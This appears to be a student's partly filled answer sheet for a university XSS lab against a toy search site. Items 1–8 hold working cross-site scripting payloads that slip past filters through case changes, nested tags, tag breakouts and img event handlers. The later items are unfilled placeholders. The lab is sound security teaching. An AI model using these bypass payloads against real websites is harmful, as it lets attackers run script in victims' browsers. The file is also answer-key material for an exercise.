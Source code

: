 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
<script>success()</script>
```

# 2. No Script Allowed (3 points)

```
script<script>success()</script>
```

# 3. One More Time, Like You Mean It (3 points)

```
<sscriptcript>success()</sscriptcript>
```

# 4. An Open-and-Shut Case (3 points)

```
<SCRIPT>success()</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

```
<scripT>success()</scripT>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```
</h3> <img src="https://media.geeksforgeeks.org/wp-content/cdn-uploads/20210420155809/gfg-new-logo.png" onload="success()"/>
```

# 7. Between a Rock And a Hard Place (3 points)

```
</h3> <img src="https://media.geeksforgeeks.org/wp-content/cdn-uploads/20210420155809/gfg-new-logo.png" onmouseover="success()"/>
```

# 8. Angle of Death (6 points)

Attack input:

```
<</h3>><script>success()</script>
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: Replace this with your attack input.
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: Replace this with your solution. **This should be a URL!**
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: Replace this with your attack input.
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: Replace this with your attack input.
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: Replace this with your solution.
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
